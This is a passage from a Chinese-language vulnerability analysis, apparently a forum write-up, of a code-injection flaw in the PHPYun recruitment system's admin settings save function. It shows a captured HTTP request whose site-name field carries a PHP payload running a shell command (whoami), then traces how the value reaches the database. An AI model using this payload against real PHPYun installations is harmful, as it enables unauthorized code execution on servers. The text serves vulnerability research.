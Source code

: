更改基本设置抓包得到

```http
POST /admin/index.php?m=config&c=save HTTP/1.1
Host: www.phpyun515.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1411
Origin: http://www.phpyun515.com
Connection: close
Referer: http://www.phpyun515.com/admin/index.php?m=config
Cookie: PHPSESSID=uje27rm43mjsqd2a8q5se7t5p3; lasttime=1634997649; ashell=426baa111758bda8ca6191308815b762; XDEBUG_SESSION=PHPSTORM

config=%E6%8F%90%E4%BA%A4&sy_webname=%3C%3Fphp+echo+%60whoami%60%3B+%3F%3E&sy_weburl=http%3A%2F%2Fwww.phpyun515.com&sy_webkeyword=phpyun%E4%BA%BA%E6%89%8D%E7%BD%91%2Cphpyun%E6%8B%9B%E8%81%98%E7%BD%91%2Cphpyun%E6%B1%82%E8%81%8C%2Cphpyun%E6%8B%9B%E8%81%98%E4%BC%9A%2C&sy_webmeta=PHP%E4%BA%91%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F%EF%BC%8C%E6%98%AF%E4%B8%93%E4%B8%BA%E4%B8%AD%E6%96%87%E7%94%A8%E6%88%B7%E8%AE%BE%E8%AE%A1%E5%92%8C%E5%BC%80%E5%8F%91%EF%BC%8C%E7%A8%8B%E5%BA%8F%E6%BA%90%E4%BB%A3%E7%A0%81100%25%E5%AE%8C%E5%85%A8%E5%BC%80%E6%94%BE%E7%9A%84%E4%B8%80%E4%B8%AA%E9%87%87%E7%94%A8+PHP+%E5%92%8C+MySQL+%E6%95%B0%E6%8D%AE%E5%BA%93%E6%9E%84%E5%BB%BA%E7%9A%84%E9%AB%98%E6%95%88%E7%9A%84%E4%BA%BA%E6%89%8D%E4%B8%8E%E4%BC%81%E4%B8%9A%E6%B1%82%E8%81%8C%E6%8B%9B%E3%80%81%E8%81%98%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88%E3%80%82&sy_webcopyright=Copyright+C+20092014+All+Rights+Reserved+%E7%89%88%E6%9D%83%E6%89%80%E6%9C%89+%E9%91%AB%E6%BD%AE%E4%BA%BA%E5%8A%9B%E8%B5%84%E6%BA%90%E6%9C%8D%E5%8A%A1&sy_webtongji=&sy_webemail=admin%40admin.com&sy_webmoblie=1586XXXX875&sy_webrecord=%E8%8B%8FICP%E5%A4%8712049413%E5%8F%B7-3&sy_websecord=&sy_perfor=&sy_hrlicense=&sy_webtel=XXXX-836XXXXX&sy_qq=33673652&sy_freewebtel=400-880-XXXX&sy_worktime=&sy_listnum=10&sy_webadd=&sy_webclose=%E7%BD%91%E7%AB%99%E5%8D%87%E7%BA%A7%E4%B8%AD%E8%AF%B7%E8%81%94%E7%B3%BB%E7%AE%A1%E7%90%86%E5%91%98%EF%BC%81&sy_web_online=1&pytoken=de1c3e777158
```

这里可以知道，我们访问的是 `/admin/index.php?m=config&c=save` 并且写入的命令参数为 `sy_webname`  
先来看看路由，我们看到 `/admin/index.php`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a582fc87ec9bd5b05e42065105d5a64b7de78281.png)  
由 `m`以及 `c`控制使用的 `controller`与 `action`，在 `POC`中 `m=config&c=save`，因此我们访问的是 `admin`下的 `model/config.class.php`中的 `save_action` ，我们来看看处理  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6834eb9776c66fd153e6ceeb864b095d6d4ad01d.png)  
从上面的包来看，明显 `config`不为 `uploadconfig`，因此跳过这个 `if`语句，来到下面  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2b45a1498906a8532434abbd70c64b0891a02d91.png)  
首先 `unset`了 `config`与 `pytoken`的值，然后一些赋值，最后获取了 `config`的 `model`，然后将整个 `$_POST`放入 `setConfig`，我们跟进看看，位于 `app/model/config.model.php`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b4c151b4ed2201c13e324c897c64c200951ebd2c.png)  
首先使用 `select_all`查询 `admin_config`表中的值，这是数据库 `model`这个父类实现的方法  
然后遍历 `$config`获取所有的 `name`放入 `alllist` ，下面的就是遍历了 `$data`也就是上文的 `$_POST`，获取他的键，在 `alllist`中存在就更新，不存在就添加，我们跟进这个 `upInfo`来看看  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a2e6cbe0f9ce9fb3fa9d0b53fc1d0755260ff219.png)  
`update_once` 也是数据库 `model`这个父类实现的方法，更新 `admin_config`的内容，因此我们写入命令执行的 `sy_webname` 也被写入了数据库，我们可以在数据库中看到，`phpyun_`是表前缀  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b9d8ce78c0843c19e725a659b3d7d44807de8f66.png)
